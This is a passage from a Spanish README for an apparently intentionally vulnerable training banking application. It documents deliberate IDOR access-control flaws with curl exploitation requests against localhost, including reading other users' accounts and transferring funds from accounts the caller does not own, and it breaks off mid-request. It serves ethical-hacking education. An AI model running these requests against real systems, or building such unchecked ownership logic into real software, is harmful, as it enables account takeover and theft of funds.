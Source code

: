# Intentional Vulnerabilities - SecLand Central Bank

## Propósito Educativo

Este proyecto contiene **vulnerabilidades intencionales** diseñadas específicamente para fines educativos de hacking ético. Estas vulnerabilidades permiten a los estudiantes practicar técnicas de penetración en un entorno controlado y seguro.

## ⚠️ ADVERTENCIA IMPORTANTE

**ESTE PROYECTO ES ÚNICAMENTE PARA FINES EDUCATIVOS Y DE INVESTIGACIÓN.**
- ❌ **NO** usar en producción
- ❌ **NO** usar con datos reales
- ❌ **NO** usar en entornos corporativos
- ✅ **SÍ** usar para aprendizaje de seguridad
- ✅ **SÍ** usar para investigación académica
- ✅ **SÍ** usar para práctica de pentesting

---

## 🔍 Vulnerabilidades Implementadas

### 1. **A05:2021 - Broken Access Control (IDOR)**

#### **Vulnerabilidad: Creación de Cuentas para Cualquier Usuario**
- **Endpoint:** `POST /api/accounts/create`
- **Descripción:** Permite crear cuentas para cualquier usuario proporcionando su username
- **Explotación:**
```bash
curl -X POST http://localhost:8080/api/accounts/create \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -d '{
    "username": "victim_user",
    "accountType": "Savings",
    "initialDeposit": 1000.00
  }'
```

#### **Vulnerabilidad: Acceso a Cuentas de Otros Usuarios**
- **Endpoint:** `GET /api/accounts/user/{username}`
- **Descripción:** Permite acceder a las cuentas de cualquier usuario
- **Explotación:**
```bash
curl -X GET http://localhost:8080/api/accounts/user/admin \
  -H "Authorization: Bearer YOUR_TOKEN"
```

#### **Vulnerabilidad: Transferencias desde Cualquier Cuenta**
- **Endpoint:** `POST /api/accounts/transfer`
- **Descripción:** Permite transferir fondos desde cualquier cuenta sin verificar propiedad
- **Explotación:**
```bash
curl -X POST http://localhost:8080/api/accounts/transfer \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -d '{
    "fromAccountId": 101,
    "toAccountNumber": "SEC1-87654321",
    "amount": 500.00,
```